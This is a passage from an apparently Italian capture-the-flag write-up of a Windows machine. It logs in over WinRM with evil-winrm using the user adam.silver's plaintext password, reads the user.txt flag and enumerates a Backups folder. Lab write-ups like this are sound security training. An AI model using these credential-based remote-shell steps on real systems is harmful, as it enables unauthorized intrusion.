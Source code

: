 
## Shell as Adam

L'account **adam.silver** e' membro del gruppo **Remote Management Users** quindi si puo' accedere con **WinRM**.

```bash

$ evil-winrm -i 10.x.x.x -u 'adam.silver' -p 'Password123!'

```

Si ottiene la **user.txt**.

```powershell

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> ls


    Directory: C:\Users\adam.silver\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         2/28/2025  12:31 PM           2312 Microsoft Edge.lnk
-ar---          9/8/2025   8:34 PM             34 user.txt


*Evil-WinRM* PS C:\Users\adam.silver\Desktop> cat user.txt
05e76714b6e1806aaae5afb9ef57b474

```

## Information Gathering as Adam

```powershell

*Evil-WinRM* PS C:\Users\adam.silver\Desktop> ls C:\


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          5/9/2025  10:48 AM                Backups
d-----         5/12/2025   5:21 PM                inetpub
d-----          5/8/2021   1:20 AM                PerfLogs
d-r---         7/24/2025  12:30 PM                Program Files
d-----          5/8/2021   2:40 AM                Program Files (x86)
d-----          3/8/2025   9:00 AM                StorageReports
d-r---          3/8/2025   8:52 AM                Users
d-----         5/13/2025   4:40 PM                Windows

*Evil-WinRM* PS C:\> ls Backups


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip

```

